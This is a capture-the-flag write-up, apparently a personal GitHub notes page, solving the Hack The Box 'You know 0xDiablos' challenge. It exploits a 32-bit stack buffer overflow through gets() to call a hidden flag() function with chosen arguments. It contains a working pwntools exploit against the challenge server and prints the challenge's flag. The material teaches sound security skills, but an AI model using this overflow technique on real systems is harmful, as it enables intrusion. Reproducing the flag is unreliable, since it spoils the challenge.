

# You know 0xDiablos

___
_Diffeculty: EASY </br>
CHALLENGE DESCRIPTION :I missed my flag._
___

### solution:
1-download and unzip the file  to get the binary.

2- static analysis:
+  with `strings` doesn't reveal much though we can see the usage of the `gets`  therfore we can expect some sort of a buffer overflow
+ we can as well run the checksec command and we get these intels:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments

```
Return-to-libc is a method that defeats stack protection on linux systems. We know that most of the
modern Linux systems have stack protection mechanism to defeat execution from stack but this is not the case here.
 --> so the stack is executable which is good .

 --> NO PIE: it means the program will be loaded at the same memory address every time it's run,This predictability makes certain types of attacks, particularly return-oriented programming (ROP) attacks, easier to execute.
 
 --> we also notice that the file is a 32-bit arch. 

3-start the challenge 
```shell
╭─kali at kali in ~/Desktop/test
╰─○ ./vuln-32 
You know who are 0xDiablos: 
hhiii
hhiii
```

- we can notice that one we type helllllllllo we get it back , so this is were get is used probably.

4-dynamique analysis:

time to go deep with gdb,r2,cutter,ghidra...etc

let's start simple and run use gdb to check which functions we have .
```asm
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049030  printf@plt
0x08049040  gets@plt
0x08049050  fgets@plt
0x08049060  getegid@plt
0x08049070  puts@plt
0x08049080  exit@plt
0x08049090  __libc_start_main@plt
0x080490a0  setvbuf@plt
0x080490b0  fopen@plt
0x080490c0  setresgid@plt
0x080490d0  _start
0x08049110  _dl_relocate_static_pie
0x08049120  __x86.get_pc_thunk.bx
0x08049130  deregister_tm_clones
0x08049170  register_tm_clones
0x080491b0  __do_global_dtors_aux
0x080491e0  frame_dummy
0x080491e2  flag
0x08049272  vuln
0x080492b1  main
0x08049330  __libc_csu_init
0x08049390  __libc_csu_fini
0x08049391  __x86.get_pc_thunk.bp
0x08049398  _fini

```

+ we can see quiet the interesting functions mainly (main,flag,vuln,gets)

now let's disasassemble main and see how things work in the background

```asm
gef➤  disassemble main
Dump of assembler code for function main:
   0x080492b1 <+0>:     lea    ecx,[esp+0x4]
   0x080492b5 <+4>:     and    esp,0xfffffff0
   ...     ....                 ....
   0x080492dc <+43>:    push   eax
   0x080492dd <+44>:    call   0x80490a0 <setvbuf@plt>
   0x080492e2 <+49>:    add    esp,0x10
   0x080492e5 <+52>:    call   0x8049060 <getegid@plt>
   0x080492ea <+57>:    mov    DWORD PTR [ebp-0xc],eax
   0x080492ed <+60>:    sub    esp,0x4
   0x080492f0 <+63>:    push   DWORD PTR [ebp-0xc]
   0x080492f3 <+66>:    push   DWORD PTR [ebp-0xc]
   0x080492f6 <+69>:    push   DWORD PTR [ebp-0xc]
   0x080492f9 <+72>:    call   0x80490c0 <setresgid@plt>
   0x080492fe <+77>:    add    esp,0x10
   0x08049301 <+80>:    sub    esp,0xc
   0x08049304 <+83>:    lea    eax,[ebx-0x1fc8]
   0x0804930a <+89>:    push   eax
   0x0804930b <+90>:    call   0x8049070 <puts@plt>
   0x08049310 <+95>:    add    esp,0x10
   0x08049313 <+98>:    call   0x8049272 <vuln>
   ...     ....                 ....
   0x08049326 <+117>:   ret
End of assembler dump.

```
+ this is more or less the interesting part of the main function , what we notice is that it calls the function vuln , so let's see what the vuln function does.

__vuln__
```asm
gef➤  disassemble vuln
Dump of assembler code for function vuln:
   0x08049272 <+0>:     push   ebp
   0x08049273 <+1>:     mov    ebp,esp
   0x08049275 <+3>:     push   ebx
   0x08049276 <+4>:     sub    esp,0xb4
   0x0804927c <+10>:    call   0x8049120 <__x86.get_pc_thunk.bx>
   0x08049281 <+15>:    add    ebx,0x2d7f
   0x08049287 <+21>:    sub    esp,0xc
   0x0804928a <+24>:    lea    eax,[ebp-0xb8]
   0x08049290 <+30>:    push   eax
   0x08049291 <+31>:    call   0x8049040 <gets@plt>
   0x08049296 <+36>:    add    esp,0x10
   0x08049299 <+39>:    sub    esp,0xc
   0x0804929c <+42>:    lea    eax,[ebp-0xb8]
   0x080492a2 <+48>:    push   eax
   0x080492a3 <+49>:    call   0x8049070 <puts@plt>
   0x080492a8 <+54>:    add    esp,0x10
   0x080492ab <+57>:    nop
   0x080492ac <+58>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x080492af <+61>:    leave
   0x080492b0 <+62>:    ret
End of assembler dump.

```
+ it's pretty obvious that it calls gets which means buffer overflow it possible .
+ the other thing i notice is that the flag function isn't called anywhere with the normal flow of the programm so i guess the trick would be to oferflow the $eip register to point to the flag function and thus call it intentionally  

let's get going now and do just that , but first we need to find two thing . the address of the flag function , and the offset from our overflow to the flag function as well 

+ the first part is easy since we have we have no PIE enabled , we just run `info functions` and we'll find the address

flag()==> 0x080491e2
now for the next part we need to create a pattern to overflow with and find the exact of offset 

seems like there's many ways to create offsets mainly i know about :
+ peda-gdb : which is a plugin for gdb just like gef that i'm using here.
+ metasploit pattern creator: 

♦ to create patter: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

l: is for the length of the pattern we want to create.
then you debug the program and find the exact value with which the targeted register/address is overwritten with 

in our case:

we can see that we have overflown the $rip
```
$eip   : 0x33674132 ("2Ag3"?)
```
now let's feed this value to the offset to the offset identifier `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb`

```shell
╭─kali at kali in ~/Desktop/crackmes
╰─○ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 33674132
[*] Exact match at offset 188
```
nice so the offset is 188, therefore to solve this we need to input 188 character followed by 4 other characters that in hex that when converted to hex construct the hex address of the flag function and we need to input them in little indian format .

here's a small python code to place all togother:

```py
#!/usr/bin/env python3
from struct import pack

# The address we want to overwrite RIP with aka the flag function address
target_address = 0x080491e2

# Create a payload of 188 characters
payload = b"A" * 188

# Append the target address (in little-endian format)
payload += pack("<I", target_address)

print(payload)

```
the output of this is :
```
b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xe2\x91\x04\x08'
```

now the remaining issue is that you can't just print these hex characters to the ascci and feed theme to the main programm , as some of theme renders oddly in terminal and break it sometimes so we may just pip them directly like :

```shell
╭─kali at kali in ~/Desktop/test
╰─○ echo -ne '\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\x41\xe2\x91\x04\x08' | ./vuln                
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��
Hurry up and try in on server side.
```
and upon investigation if we use ghidra we can check that we indeed hit the flag funtion it runs 
because the outputed text lives in that function :

_flag()_

```c
void flag(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```
but it looks like we've dodged the main code to output the flag , the main reason maybe the fact that we haven't supplied any parameteres in order to enter the IF checks blocks of code .

no how can we do that?? 

In many calling conventions arguments are pushed onto the stack in reverse order. This means the last argument is pushed first, and the first argument is pushed last.
and upon the start of a function call a stack frame is created and is represented this way :
let's take flag() as an example

| **flag() stack frame** | 
|------------------------|
| <center> flag() address         |
| <center> some return address    |
| <center> flag args...           |

now that thing are clear we just have to constructe out payload 
which will look like :
`a*188+flag() address+ random return address+arg[1]+arg[2]`
note that here the return address is supplied as random because it doesn't matter to us 

+ for the arguments that we need to supply we can find them in the disassamble of flag()
```asm
   ...              ....            ...
   0x0804923e <+92>:    call   0x8049050 <fgets@plt>
   0x08049243 <+97>:    add    esp,0x10
   0x08049246 <+100>:   cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x0804924d <+107>:   jne    0x8049269 <flag+135>
   0x0804924f <+109>:   cmp    DWORD PTR [ebp+0xc],0xc0ded00d
   0x08049256 <+116>:   jne    0x804926c <flag+138>
      ...              ....            ...

```
the first argument is `0xdeadbeef ` and the second is `0xc0ded00d`

all the thing are in place , finally let's glow everything with pwntools and the final script is something down these lines:

```py
#!/bin/python3
from pwn import *
from struct import pack

first_param = 0xdeadbeef  # Changed from 0xdeadbeef to match the target program
second_param = 0xc0ded00d
flag_address = 0x080491e2

# Construct the payload
payload = b"A" * 188+p32(flag_address)+b'a'*4+p32(first_param)+p32(second_param)  # Second parameter follows the first
# Start the process
conn = remote('83.136.252.57',49324)  # Assuming the binary is named 'vuln-32' for 32-bit
conn.sendline(payload)
conn.interactive()
```

```
╭─kali at kali in ~/Desktop/test
╰─○ ./exp.py   
[+] Opening connection to 83.136.252.57 on port 49324: Done
[*] Switching to interactive mode
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd0\xde\xc0AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe2\x9aaaaﾭ\xde
HTB{0ur_Buff3r_1s_not_healthy}$                                                                               [*] Got EOF while reading in interactive
$ 
$ 
[*] Closed connection to 83.136.252.57 port 49324
```
woow we got flag ! after hours and people getting first blood in 3 min 😪


referrences:

+ https://web.archive.org/web/20161106210059/https://www.exploit-db.com/docs/28553.pdf
+ https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming
+ https://ir0nstone.gitbook.io/notes/types/stack/return-oriented-programming/exploiting-calling-conventions
+ https://docs.pwntools.com/en/stable/intro.html
+ https://web.archive.org/web/20161106210059/https://www.exploit-db.com/docs/28553.pdf
+ https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing

_end_


EXTRA: (IGNORE THIS IF YOU want)
stuff i found along the way:
```asm
mov edi,0
call read 
```
+ this means to read from the standard input, in such sinerio always check for buffers size and overflow things.

+ parameters are pushed to the stack before calling out the function in which they are use in 
```asm
32-bit
push 0xdeadbeef
call sym.vuln
------------
64-bit:
0x00401161      bfdec0adde     mov edi, 0xdeadc0de
0x00401166      e8b7ffffff     call sym.vuln
```
+ edi is just the lower 32 bits of rdi
+ ret is equivalent to pop rip
+ you can use the ROPgadget to find gadgets in the binary and chain them .
+ you can check the exact values of hex wiht `printf "%X\n" 0x21524111` for example.
+ you can use pwntools  cyclic(512) and cyclic_find(0x61616178) to find exat offsets as well 